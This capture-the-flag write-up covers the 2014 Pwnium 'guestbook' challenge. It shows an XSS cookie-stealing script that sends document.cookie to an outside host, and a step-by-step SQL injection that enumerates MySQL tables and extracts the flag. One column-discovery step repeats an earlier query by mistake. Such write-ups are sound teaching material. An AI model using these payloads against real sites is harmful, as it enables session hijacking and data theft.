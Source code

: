 ```yaml
---
layout: post
title:  "Guestbook - SQL Injection (Pwnium CTF)"
date:   2014-07-19 18:15
categories: writeups
author: Joey Geralnik
tags: sqli
---
```

This is a writeup of the challenge guestbook from the 2014 Pwnium CTF.

See my [previous post]({% post_url 2014-07-19-2048 %}) for some details about the competition.

This was a relatively simple SQL injection level but there are no writeups available online and I saw some people requesting one.

## The challenge
We are given the url of a [website](http://41.231.53.43:8383/) and told to find the key.

Luckily the website is still up so I was able to recreate my exploit (note to self: take better notes in the future).

## XSS?
The first thing we noticed after logging in to the website and trying to create a post is that the form is vulnerable to xss. If we enter a post with the title:

    <script>alert(document.cookie);</script>

and submit it we will get a popup window.

We can see that there is a cookie called "c" set and that it is accessible through javascript. Trying on another browser, we see that setting "c" is enough to log in as another user.

The next interesting page is the contact page. There we can send a message to the admin that will presumably also be vulnerably to xss. We created a basic cookie stealing exploit - a script that does

    window.location = "http://www.example.com/cookiesteal?" + escape(document.cookie);

sent it to the admin and then waited for the admin to see the message, get redirected to our website, and see his cookie in our server logs.

We waited. And waited.

Eventually we realized that the admin doesn't actually exist and isn't going to be visiting our site.

Time to look for another vulnerability.

## SQLI

Going back to the 'post a comment' page, we see what else we can do (first we should create a new user so we don't have to deal with those alerts from the xss atempt). This time, let's try entering a single quote in the subject

    '

We get an error! Yay! We experiment with quotes and comments to try to enter a valid post. The first one that works is:

Title:

    g', 'h

Content:

    h', 'i') -- 

(Note the space at the end of the line)

This prints out success. We can simplify this and use just the title with:

    abc', 'def', 'ghi') -- 

Which once again works. However, we don't see the post on the page. If the first field is title and the second field is content, we can guess that the third field is the username. That is - the post is being inserted into the database as part of a query of the form `INSERT INTO posts (title, content, user) VALUES (%s, %s, %s);`. My username was xxb - the result of random keyboard mashing. Trying

    abc', 'def', 'xxb') -- 

We again get a success message and this time we can see the post!

## Exploiting

Let's try calling a function instead of the second field:

    abc', version(), 'xxb') -- 
    Result: 5.5.37-0ubuntu0.14.04.1   

A quick google search reveals that 5.5.37 is a mysql version number. Let's try to see what tables the database has:

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES limit 1), 'xxb') --  
    Result: CHARACTER_SETS

Hmm, not so helpful.

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES order by
    CREATE_TIME limit 1), 'xxb') --  
    Result: post

Alright!

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES where
    table_name != 'post' order by CREATE_TIME limit 1), 'xxb') --  
    Result: user
    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES where
    table_name not in ('post', 'user') order by CREATE_TIME limit 1), 'xxb') --  
    Result: flag

Win! I will admit I spent some time examining users and posts and logging in as the admin user before thinking to search for another table.

Now we just need to figure out what columns the table has:

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES where
    table_name not in ('post', 'user') order by CREATE_TIME limit 1), 'xxb') --  
    Result: flag

Victory?

    abc', (SELECT flag from flag), 'xxb') --  
    Result: Error

Hmm...

    abc', (SELECT flag from flag LIMIT 1), 'xxb') --  
    Result: ''

Last try:

    abc', (SELECT flag from flag where flag != '' LIMIT 1), 'xxb') --  
    Pwnium{a6f33b4062b8bdcf3fe12e024568f67b}

Yay! That's the flag!
